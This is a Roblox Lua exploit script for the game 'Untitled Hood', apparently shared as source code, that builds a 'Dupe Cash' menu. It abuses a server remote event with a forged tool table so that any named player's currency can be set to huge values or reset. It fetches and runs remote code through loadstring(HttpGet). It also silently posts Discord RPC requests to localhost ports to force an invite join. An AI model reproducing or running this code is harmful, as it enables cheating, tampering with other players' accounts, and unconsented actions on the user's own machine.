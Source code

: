 local Settings = {
    InviteCode = "urs2cRBHXU"
  }
  
  -- Objects
  local HttpService = game:GetService("HttpService")
  local RequestFunction
  
  if syn and syn.request then
    RequestFunction = syn.request
  elseif request then
    RequestFunction = request
  elseif http and http.request then
    RequestFunction = http.request
  elseif http_request then
    RequestFunction = http_request
  end
  
  local DiscordApiUrl = "http://127.0.0.1:%s/rpc?v=1"
  
  -- Start
  if not RequestFunction then
    return print("Your executor does not support http requests.")
  end
  
  for i = 6453, 6464 do
    local DiscordInviteRequest = function()
        local Request = RequestFunction({
            Url = string.format(DiscordApiUrl, tostring(i)),
            Method = "POST",
            Body = HttpService:JSONEncode({
                nonce = HttpService:GenerateGUID(false),
                args = {
                    invite = {code = Settings.InviteCode},
                    code = Settings.InviteCode
                },
                cmd = "INVITE_BROWSER"
            }),
            Headers = {
                ["Origin"] = "https://discord.com",
                ["Content-Type"] = "application/json"
            }
        })
    end
    spawn(DiscordInviteRequest)
  end

  local colors = {
    SchemeColor = Color3.fromRGB(0,255,255),
    Background = Color3.fromRGB(0, 0, 0),
    Header = Color3.fromRGB(0, 0, 0),
    TextColor = Color3.fromRGB(255,255,255),
    ElementColor = Color3.fromRGB(20, 20, 20)
}

local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("Untitled Hood / Dupe Cash", "Sentinel")
local Tab = Window:NewTab("Dupe")
local Section = Tab:NewSection("Dupe Lol")






local Workspace = game:GetService("Workspace")
local Players = game.Players.LocalPlayer

local Character = Players.Character




function Buy(Object)
    local Object = Object
    local LockPicker = Workspace.Ignored.Shop[Object]
    Character.HumanoidRootPart.CFrame = LockPicker.Head.CFrame + Vector3.new(0, 3, 0)
    wait(0.5)
    fireclickdetector(LockPicker.ClickDetector)
    fireclickdetector(LockPicker.ClickDetector)
end

Buy("[Revolver] - $1300")

wait(0.5)


wait(0.5)

game.ReplicatedStorage:FindFirstChild(".gg/untitledhood"):FireServer(
    "Reload",
    {
        Name = "[Revolver]", --// reminder: [Double-Barrel SG] or [Revolver] works for any gun but i put it here so i can just copy and paste whenever i want to
        Parent = Game.Players.LocalPlayer.Backpack,
        ClassName = "Tool",
        Ammo = {Value = math.huge*9e9},
        MaxAmmo = {Value = 0},
        GunScript = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].GunScript,
        Handle = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].Handle
    }
)

wait(2)



_G.Aiden = Players --CHANGE NAME HERE

_G.Amount = 999999999999 --999999999999

_G.Amount2 = 7777777777
---

_G.Reset = 1 

Section:NewButton("Give 999999999999 Cash", "", function()

game.ReplicatedStorage:FindFirstChild(".gg/untitledhood"):FireServer(
    "Reload",
    {
         Name = "[Revolver]",
        Parent = Game.Players.LocalPlayer.Backpack,
        ClassName = "Tool",
        Ammo = game:GetService("Players")[_G.Aiden].DataFolder.Currency,
        MaxAmmo = {Value = _G.Amount},
        GunScript = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].GunScript,
        Handle = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].Handle
    }
) 
end)





       
Section:NewButton("Reset Cash", "", function()

game.ReplicatedStorage:FindFirstChild(".gg/untitledhood"):FireServer(
    "Reload",
    {
        Name = "[Revolver]",
        Parent = Game.Players.LocalPlayer.Backpack,
        ClassName = "Tool",
        Ammo = game:GetService("Players")[_G.Aiden].DataFolder.Currency,
        MaxAmmo = {Value = _G.Reset},
        GunScript = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].GunScript,
        Handle = game:GetService("Players").LocalPlayer.Backpack["[Revolver]"].Handle
    }
) 
end)




--game:GetService("Players").BadSnif






Section:NewTextBox("Username", "the guy who receive cash", function(value)
    _G.Aiden = value
end)


local Tab = Window:NewTab("HotKeys")
local Section = Tab:NewSection("HotKeys")
Section:NewKeybind("HotKeys", "KeybindInfo", Enum.KeyCode.Q, function()
    Library:ToggleUI()
end)

local Tab = Window:NewTab("Credits")
local Section = Tab:NewSection("Credit 03.s#6260")
Section:NewButton("Copy Discord", "Credits", function()
    setclipboard("https://discord.gg/urs2cRBHXU")("Clicked")
end)

local Section = Tab:NewSection("Youtube : Reality")

Section:NewButton("Copy Youtube", "Copy", function()
    setclipboard("https://www.youtube.com/channel/UC92aBBDpwMA8DIv0UArKDKA/videos")("Clicked")
end)

local Section = Tab:NewSection("Youtube : Klee Dan Paiimon")

Section:NewButton("Copy Youtube 2", "Copy", function()
    setclipboard("https://www.youtube.com/channel/UC46AtUT2wYwjxDImBBWmKlw/videos")("Clicked")
end)
